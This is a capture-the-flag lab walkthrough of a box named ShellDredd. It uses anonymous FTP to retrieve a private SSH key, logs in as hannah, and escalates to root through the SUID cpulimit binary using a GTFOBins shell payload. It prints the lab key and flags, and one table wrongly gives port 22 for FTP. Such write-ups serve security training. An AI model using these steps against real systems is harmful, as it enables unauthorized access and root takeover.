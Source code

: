 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -Pn -p- -A -T5 192.168.174.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 08:09 EDT
Warning: 192.168.174.130 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.174.130
Host is up (0.068s latency).
Not shown: 64550 closed tcp ports (conn-refused), 983 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.234
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.33 seconds
```

There are two open ports:

| Port  | Service |
| ----- | ------- |
| 22    | ftp     |
| 61000 | ssh     |

### Port 21 (FTP) enumeration

From the Nmap scan we can see that Anonymous login is allowed for FTP. Let's try it.

| Username  | Password  |
| --------- | --------- |
| anonymous | anonymous |

```
$ ftp 192.168.174.130                                                    
Connected to 192.168.174.130.
220 (vsFTPd 3.0.3)
Name (192.168.174.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

```
ftp> ls -la
229 Entering Extended Passive Mode (|||35727|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
```

```
ftp> cd .hannah
250 Directory successfully changed.
```

```
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```

We can see that there is a `id_rsa` key, which is the private key for SSH.
Before we download the files, we have to turn the passive mode off.

```
ftp> passive off
Passive mode: off; fallback to active mode: off.
```

Now we can download `id_rsa` using the `get` command.

```
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************************************************************************************************************************************************|  1823       10.53 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (25.25 KiB/s)
```

On the attacker's machine let's check if the private SSH key is encrypted.

```
$ cat id_rsa                                 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA1+dMq5Furk3CdxomSts5UsflONuLrAhtWzxvzmDk/fwk9ZZJMYSr
/B76klXVvqrJrZaSPuFhpRiuNr6VybSTrHB3Db7cbJvNrYiovyOOI92fsQ4EDQ1tssS0WR
6iOBdS9dndBF17vOqtHgJIIJPGgCsGpVKXkkMZUbDZDMibs4A26oXjdhjNs74npBq8gqvX
Y4RltqCayDQ67g3tLw8Gpe556tIxt1OlfNWp3mgCxVLE1/FE9S6JP+LeJtF6ctnzMIfdmd
GtlWLJdFmA4Rek1VxEEOskzP/jW9LXn2ebrRd3yG6SEO6o9+uUzLUr3tv9eLSR63Lkh1jz
n5GAP3ogHwAAA8hHmUHbR5lB2wAAAAdzc2gtcnNhAAABAQDX50yrkW6uTcJ3GiZK2zlSx+
U424usCG1bPG/OYOT9/CT1lkkxhKv8HvqSVdW+qsmtlpI+4WGlGK42vpXJtJOscHcNvtxs
m82tiKi/I44j3Z+xDgQNDW2yxLRZHqI4F1L12d0EXXu86q0eAkggk8aAKwalUpeSQxlRsN
kMyJuzgDbqheN2GM2zviekGryCq9djhGW2oJrINDruDe0vDwal7nnq0jG3U6V81aneaALF
UsTX8UT1Lok/4t4m0Xpy2fMwh92Z0a2VYsl0WYDhF6TVXEQQ6yTM/+Nb0tefZ5utF3fIbp
IQ7qj365TMtSve2/14tJHrcuSHWPOfkYA/eiAfAAAAAwEAAQAAAQEAmGDIvfYgtahv7Xtp
Nz/OD1zBrQVWaI5yEAhxqKi+NXu14ha1hdtrPr/mfU1TVARZ3sf8Y6DSN6FZo42TTg7Cgt
vFStA/5e94lFd1MaG4ehu6z01jEos9twQZfSSfvRLJHHctBB2ubUD7+cgGe+eQG3lCcX//
Nd1hi0RTjDAxo9c342/cLR/h3NzU53u7UZJ0U3JLgorUVyonN79zy1VzawL47DocD4DoWC
g8UNdChGGIicgM26OSp28naYNA/5gEEqVGyoh6kyU35qSSLvdGErTMZxVhIfWMVK0hEJGK
yyR15GMmBzDG1PWUqzgbgsJdsHuicEr8CCpaqTEBGpa28QAAAIAoQ2RvULGSqDDu2Salj/
RrfUui6lVd+yo+X7yS8gP6lxsM9in0vUCR3rC/i4yG0WhxsK3GuzfMMdJ82Qc2mQKuc05S
I96Ra9lQolZTZ8orWNkVWrlXF5uiQrbUJ/N5Fld1nvShgYIqSjBKVoFjO5PH4c5aspX5iv
td/kdikaEKmAAAAIEA8tWZGNKyc+pUslJ3nuiPNZzAZMgSp8ZL65TXx+2D1XxR+OnP2Bcd
aHsRkeLw4Mu1JYtk1uLHuQ2OUPm1IZT8XtqmuLo1XMKOC5tAxsj0IpgGPoJf8/2xUqz9tK
LOJK7HN+iwdohkkde9njtfl5Jotq4I5SqKTtIBrtaEjjKZCwUAAACBAOOb6qhGECMwVKCK
9izhqkaCr5j8gtHYBLkHG1Dot3cS4kYvoJ4Xd6AmGnQvB1Bm2PAIA+LurbXpmEp9sQ9+m8
Yy9ZpuPiSXuNdUknlGY6kl+ZY46aes/P5pa34Zk1jWOXw68q86tOUus0A1Gbk1wkaWddye
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

&nbsp;

## Exploitation

### SSH login using private key

Since we found the private key in the `.hannah` directory, chances are it belongs to the `hannah` user.

Before we log in, we have to set the file permission to `600`.

```
$ chmod 600 id_rsa 
```

Now we can log in as `hannah` using the private SSH key.

```
$ ssh -i id_rsa hannah@192.168.174.130 -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 11 14:27:51 2024 from 192.168.45.234
hannah@ShellDredd:~$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
hannah@ShellDredd:~$ cat local.txt 
7f63370140bf587c7e1d9b96cf46a482
```

### Privilege Escalation

#### SetUID binaries

We can use the `find` command to search for files on the system where the `setuid` bit is set.

```
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```

We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins]([https://gtfobins.github.io/](https://gtfobins.github.io/gtfobins/cpulimit/#suid)) to search for an exploit for the `cpulimit` utility.

![1](https://github.com/user-attachments/assets/10ba9487-da3c-4245-9227-5308cd063fa9)

```
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 1190 detected
# whoami
root
```

### proof.txt

```
# cat /root/proof.txt
6f31c24a8b78ea0271ecfa3da1856390
```
